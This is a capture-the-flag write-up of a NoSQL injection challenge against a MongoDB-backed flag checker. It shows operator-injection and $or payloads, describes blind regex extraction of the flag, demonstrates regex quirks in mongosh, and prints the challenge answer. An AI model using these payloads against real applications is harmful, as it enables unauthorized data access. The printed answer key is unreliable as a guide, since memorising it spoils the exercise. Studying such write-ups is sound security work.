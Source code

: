 # NoSQL injection - Authentication

**Point**: 45 Points

**Title**: Flag Checker

**Description**: This is a little web application to test challenge flags. Retrieve the flag for the challenge ’nosqlblind’.

## Analysis (This just for newbie):

We again have a form that needs to be bypassed.

<p align="center"><img src="images/loginform.png"></p>

Skip some challenge's names, I should have a quick test with simple payload:

```
?chall_name[$ne]=1&flag[$ne]=1
```

<p align="center"><img src="images/filter.png"></p>

"Associative array" techniques may not work.

Now, focus on the obvious condition that we know the correct "challenges", 1 field in this form. So with this data, I straightforwardly think of constructing a payload that use "OR" operator  to bypass as normal-case SQL Injection. I learn that from the [provided document](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20NoSQL,%20No%20injection%20-%20Ron,%20Shulman-Peleg,%20Bronshtein.pdf?_gl=1*zh58dy*_ga*MTU3NDQyNTQwNy4xNjYyMTI2NjEx*_ga_SRYSKX09J7*MTY2MjEzMjQxNC4xMi4wLjE2NjIxMzI0MjYuMC4wLjA.). Payload:

```
chall_name=bluebox", $or: [ {}, { "1":"1&flag=" } ], $comment:"successful MongoDB injection"
```

MongoDB execute the query look like this:

```mongodb
db.chall.find({"chall_name": "injection1", "flag": "injection2")
```

After we inject malicious command:

```mongodb
db.chall.find({"chall_name": "bluebox", $or: [ {}, { "1":"1", "flag": "" } ], $comment:"Hacked by khangtictoc"")
```

This is equivalent to `SELECT * FROM chall WHERE chall_name="bluebox" OR (True AND ("1"="1" AND flag="")) // Hacked by khangtictoc`. We must know a specific `chall_name` to conduct attack, this was given with "bluebox, zeusbot, nosqlblind" for us to test.

But, unfortunately:

<p align="center"><img width=400 height=180 src="images/wrong.png"></p>

Whoops! Maybe the backend handles this too. 

So we really lost our track? It takes much time to test more and I surprisingly notice that there is a vulnerability in `flag` box. They do not apply filter on this compared to `chall_name` one. Now things are done, combining with the title "Blind SQL" and our goal is to check the correct flag.

To achieve the goal, I write a **Python** code and use `$regex` to make a comparison with actual flag's pattern. I check printable characters except some special cases and loop on each flag's position. I let my code [here](solve.py)

## Solution:

Run `solve.py` *(Make sure to use a VPN or fixed IPv6 address).* The code content I have explained clearly with comments.

<p align="center"><img src="images/result.png"></p>

A little hard-working. Right?

## More Explanations:

> Note: This only for deeper understanding

`$regex` is the most best-fit way I could come up with. Besides, there are some special chars that we should avoid when comparing like ['*' , '+', '.', '?', '|', '&', '$']. This will make the regex pattern work as the way we do not want or predict.

> Note: Regex in MongoDB acts a little different when compared to others.

Try some examples with `mongosh` (MongoShell):

`Wrong match case with first correct characters or strings`. The case includes ['*' , '+', '.', '?', '|']

```shell
test> use test
already on db test
test> db.test.insertOne({"flag": "3iteasytomisunderstanding"})
{
  acknowledged: true,
  insertedId: ObjectId("63121aef6fe86849cca910f6")
}
test> db.test.find({"flag": {$regex: "^3*"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3+"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3."}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3?"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
test> db.test.find({"flag": {$regex: "^3|"}})
[
  {
    _id: ObjectId("63121aef6fe86849cca910f6"),
    flag: '3iteasytomisunderstanding'
  }
]
```

`Wrong match case when ending the searching`. The case includes ['&'], this shows the mark of ending the pattern, so it's still matched.

```shell
test> db.test.insertOne({"flag": "3@sY_n0_5q7_1nj3c710n"})
{
  acknowledged: true,
  insertedId: ObjectId("63122a536fe86849cca910f7")
}
test> db.test.find({"flag": {$regex: "^3@sY_n0_5q7_1nj3c710n$$$$$$$$$$$$$$$$$$$$"}})
[
  {
    _id: ObjectId("63122a536fe86849cca910f7"),
    flag: '3@sY_n0_5q7_1nj3c710n'
  }
]
```

Flag: **3@sY_n0_5q7_1nj3c710n**
